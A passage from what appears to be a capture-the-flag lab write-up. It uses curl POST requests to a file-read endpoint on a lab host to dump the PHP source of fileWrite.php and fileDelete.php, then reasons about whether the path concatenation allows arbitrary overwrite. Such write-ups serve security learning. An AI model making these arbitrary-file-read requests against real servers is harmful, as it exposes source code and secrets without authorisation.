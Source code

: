 ```
$ curl -d "file=./fileWrite.php" -X POST http://10.10.10.87:80/fileRead.php
{"file":"<?php\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\theader('Content-Type: application\/json');\n\t$condition['result'] = false;\n\tif(isset($_POST['listnum'])){\n\t\tif(is_numeric($_POST['listnum'])){\n\t\t\t$myFile = \"\/var\/www\/html\/.list\/list\" . $_POST['listnum'];\n\t\t\t$handle = fopen($myFile, 'w');\n\t\t\t$data = $_POST['data'];\n\t\t\tfwrite($handle, $data);\n\t\t\tfclose();\n\t\t\t$condition['result'] = true;\n\t\t}\n\t}\n\techo json_encode($condition);\n}\n"}
```

```
<?php

if($_SERVER['REQUEST_METHOD'] === \"POST\"){
  header('Content-Type: application\/json');
  $condition['result'] = false;
  if(isset($_POST['listnum'])){
    if(is_numeric($_POST['listnum'])){
      $myFile = \"\/var\/www\/html\/.list\/list\" . $_POST['listnum'];
      $handle = fopen($myFile, 'w');
      $data = $_POST['data'];
      fwrite($handle, $data);
      fclose();
      $condition['result'] = true;
    }
  }
  echo json_encode($condition);
}
```

In `fileWrite.php`, we see the file name is built from a concatentation of the
`listnum` parameter to `/var/www/html/.list/list` which appears to prevent us from
overwriting arbitrary files and attempting to execute them.

##### FILEDELETE.PHP

```
$ curl -d "file=./fileDelete.php" -X POST http://10.10.10.87:80/fileRead.php
{"file":"<?php\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\tif(isset($_POST['listnum'])){\n\t\theader('Content-Type: application\/json');\n\t\tif(is_numeric($_POST['listnum'])){\n\t\t\t$myFile = \"\/var\/www\/html\/.list\/list\" . $_POST['listnum'];\n\t\t\tunlink($myFile);\n\t\t\theader('Content-Type: application\/json');\n\t\t\techo '[true]';\n\t\t}else{\n\t\t\theader('Content-Type: application\/json');\n\t\t\techo '[false]';\n\t\t}\n\t}else{\n\t\theader('Content-Type: application\/json');\n\t\techo '[false]';\n\t}\n}\n"}
```

```
<?php

if($_SERVER['REQUEST_METHOD'] === \"POST\"){
  if(isset($_POST['listnum'])){
    header('Content-Type: application\/json');
    if(is_numeric($_POST['listnum'])){
      $myFile = \"\/var\/www\/html\/.list\/list\" . $_POST['listnum'];
      unlink($myFile);
      header('Content-Type: application\/json');
      echo '[true]';
    }else{
      header('Content-Type: application\/json');
      echo '[false]';
    }
  }else{
    header('Content-Type: application\/json');
    echo '[false]';
  }
}
```
